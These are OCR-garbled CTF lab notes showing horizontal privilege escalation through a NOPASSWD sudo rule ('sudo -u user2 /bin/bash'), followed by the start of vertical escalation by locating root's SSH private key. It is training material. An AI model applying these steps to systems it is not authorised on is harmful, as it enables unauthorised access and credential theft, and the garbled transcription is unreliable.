  

    Check for any password required while escalting for user 2 

 
File Edit View Search Terminal Tabs Help Parrot Terminal Parrot Terminal user1@ng-535@45-gettingstartedprivesc-hzq19-5b6695dcc4-z9vdd:-$ sudo -l Matching Defaults entries for user 1 on ng-535@45-gettingstartedprivesc-hzq19-5b6695dcc4-z9vdd: env reset, mail badpass, secure : /bin\ : / snap/ bin User user 1 may run the following commands on ng-535€45-gettingstartedprivesc-hzq19-5b6695dcc4-z9vdd: ( user2 . user2) NOPASSWD: / bin/ bash user1@ng-535@45-gettingstartedprivesc-hzq19-5b6695dcc4-z9vdd:-$ 0

 

 

NOPASSWD : /bin/bash means no password required 

    Permission is denied coz we are in user1 

 
Parrot Terminal Parrot Terminal user1@ng-535@45-gettingstartedprivesc-hzq19-5b6695dcc4-z9vdd:-$ sudo -l Matching Defaults entries for user 1 on ng-535@45-gettingstartedprivesc-hzq19-5b6695dcc4-z9vdd: env reset, mail badpass, secure : /bin\ : / snap/ bin User user 1 may run the following commands on ng-535€45-gettingstartedprivesc-hzq19-5b6695dcc4-z9vdd: ( user2 . user2) NOPASSWD: / bin/ bash user1@ng-535@45-gettingstartedprivesc-hzq19 -bash: / home/user2: Is a directory user1@ng-535@45-gettingstartedprivesc-hzq19 user1@ng-535@45-gettingstartedprivesc-hzq19 flag . txt rtedprivesc-hzq19 cat: flag. txt: Permission denied userl@ng userl@ng userl@ng userl@ng userl@ng -535045 -535045 -535045 -535045 -535045 -gettingstartedprivesc-hzq19 -gettingstartedprivesc-hzq19 -gettingstartedprivesc-hzq19 -gettingstartedprivesc-hzq19 -gettingstartedprivesc-hzq19 -5b6695dcc4 -5b6695dcc4 -5b6695dcc4 -5b6695dcc4 -5b6695dcc4 -5b6695dcc4 -5b6695dcc4 -5b6695dcc4 -5b6695dcc4 -z9vdd:-$ / home/user2 -z9vdd:-$ cd / home/user2 -z9vdd:/home/user2$ Is -z9vdd:/home/user2$ cat flag. txt -z9vdd:/home/user2$ cd \ -z9vdd : -$ -z9vdd : -$ -z9vdd : -$ • -$ claerl -z9vdd.

 

    Open us bash access for user2 : sudo -u user2 /bin/bash 

 
Parrot Terminal user2@ng-535€45 user2 user2@ng-535€45 user2@ng-535€45 user 1 user2 user2@ng-535€45 user2@ng-535€45 flag . txt use -gettingstartedprivesc-hzq19 -gettingstartedprivesc-hzq19 -gettingstartedprivesc-hzq19 -gettingstartedprivesc-hzq19 -gettingstartedprivesc-hzq19 -gettingstartedprivesc-hzq19 -gettingstartedprivesc-hzq19 FTB{1473r41 m€v3m3n7 70 4n€7h3r u53r} use r2@ng-535045-gettingsta rtedprivesc-hzq19 -5b6695dcc4 -5b6695dcc4 -5b6695dcc4 -5b6695dcc4 -5b6695dcc4 -5b6695dcc4 -5b6695dcc4 -5b6695dcc4 Parrot Terminal -z9vdd:-$ sudo -u user2 / bin/ bash -z9vdd:/home/user1$ whoami -z9vdd:/home/user1$ cd -z9vdd:/home$ Is -z9vdd:/home$ cd user2 -z9vdd. -z9vdd:-$ cat flag. txt -z9vdd:

 

NOW WE HAVE SUCCESSFULLY ESCALATED HORIZONTAL PRIV ESC 

Vertical privilege escalation 

Method 1 : Using id_rsa key 

    Locate the id_rsa file. id_rsa is the private key 

 
VI ew Parrot Terminal user2@ng-535@45-gettingstartedprivesc-hzq19-5b6695dcc4-z9vdd:/root$ Is -la drwxr-xr-x 1 Search I erminal Parrot Terminal user2@ng-535@45-gettingstartedprivesc-hzq19-5b6695dcc4-z9vdd:/root$ Is flag . txt user2@ng-535@45-gettingstartedprivesc-hzq19-5b6695dcc4-z9vdd:/root$ cat flag. txt cat: flag. txt: Permission denied total 32 drwxr-x -rwxr-x- -rwxr-x- -rwxr-x- drwxr-x -rwxr-x--- 1 root root root root root root root root user2 root user2 user2 user2 user2 user2 root 4096 4096 5 3106 161 4096 1309 33 Feb Sep Aug Dec Dec Feb Aug Feb 12 7 19 5 5 12 19 12 2021 18:32 2€2€ 2019 2019 2021 2€2€ . bash history . bashrc . profile . ssh . viminfo 2021 flag. txt user2@ng-535@45-gettingstartedprivesc-hzq19-5b6695dcc4-z9vdd:/root$ cd .ssh user2@ng-535@45-gettingstartedprivesc-hzq19-5b6695dcc4-z9vdd:/root/ . ssh$ Is authorized keys id rsa id_pa. pub : / root/ . ssh$ 1. Private 2. Pubic Key
